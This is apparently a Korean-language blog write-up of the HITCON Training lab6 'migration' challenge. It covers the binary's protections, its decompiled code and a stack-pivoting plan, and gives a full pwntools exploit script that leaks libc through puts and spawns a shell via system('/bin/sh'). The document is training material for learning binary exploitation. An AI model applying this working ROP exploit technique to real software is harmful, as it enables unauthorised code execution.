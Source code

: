 ```yaml
---
layout: post
title: "[HITCON Training] lab6"
comments : true
category : War Game
---
```


# 문제
***

migration 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

file 명령어의 결과는 다음과 같다. 
```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

바이너리 코드 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 0x40u);
}
```

바이너리는 매우 간단한데, count 값 검증 이후에  read로 입력을 받고 종료한다. read 함수를 통해서 bof를 발생시킬 수 있는데 여기서 두 가지 문제점이 있다. 

1. read로 64byte 밖에 받지 않는다. (buf가 ebp-0x28에 위치하기 때문에 payload로 구성할 수 있는 공간이 매우 작다.)

2. libc_leak을 한 이후에 stack에 입력을 받아서 ROP를 이어가야 하는데 ASLR이 걸려있기 때문에 stack 주소를 알 수 없다. 

=> 2번 문제를 해결 하기 위해서 stack pivoting이 필요하다.

## exploit 방법

1. sfp에 bss_section의 주소를 넣어둔다.
2. puts 함수를 통해서 setvbuf의 got 값을 알아낸다. 이를 통해서 libc의 base address를 계산할 수 있다. 
3. main에서 read 함수를 호출하는 곳으로 ret한다. 
   read 함수는 ebp-0x28에 입력을 받기 때문에 bss_section에 write를 할 수 있다. 
   여기에 44byte의 쓰레기 값과 system 함수 및 "/bin/sh" 주소를 넣어주면 read 이후의 leave ret을 통해서 system 함수 호출이 가능하다.


# 풀이
```

#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab6/migration"
libc=ELF("/lib/i386-linux-gnu/libc.so.6")


p=process(file_path)
p.recvuntil("best :\n")


puts=0x8048390
setvbuf_got=0x8049ffc
pr=0x0804836d
main_read=0x080484f2

bss_sec=0x804a800

#stage 1
pay="A"*40
pay+=p32(bss_sec)
pay+=p32(puts)
pay+=p32(pr)
pay+=p32(setvbuf_got)
pay+=p32(main_read)

p.send(pay)

setvbuf_addr=u32(p.recv(4))
p.recv()

libc_base=setvbuf_addr-libc.symbols['setvbuf']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

#stage2
pay2="A"*44
pay2+=p32(system)
pay2+="BBBB"
pay2+=p32(sh)

p.send(pay2)

p.interactive()
```

# 알게 된 것
***
1. stack pivoting 
내가 원하는 곳으로 esp (ebp)를 옮겨서 stack 구성을 내 마음대로 할 수 있게 하는 것

2. puts 함수는 string의 마지막에 "\n"을 추가해서 출력한다.
근데 이 "\n"을 제대로 recv해놓지 않으면 내부적으로 뭔가가 꼬여서 이후에 내가 원하는 내용을 recv하지 못한다. 따라서 출력되는 내용을 그때 그때 recv 해놓고 처리해 놓아야 한다.!!!

3. puts, printf와 같은 함수는 stack을 매우 많이 써서 stack pivoting을 한 영역의 앞 부분이 쓸 수 없는 공간이면 위의 함수가 제대로 작동하지 않을 수 있다.
(즉, push esp나 sub esp,X 명령어를 실행하면서 계속 esp값이 감소하는데 낮은 주소 영역이 writable 하지 않은 공간이면 함수 호출을 진행하다가 터진다.) 

4. No relro => dynamic section + got 쓰기 권한 있음 <br/>
   Partial relro => got 쓰기 권한 있음 <br/>
   Full relro => 두 영역에 쓰기 권한 없음

c.f .dynamic section은 dtor,init fini pltgot 등으로 구성되어 있다.
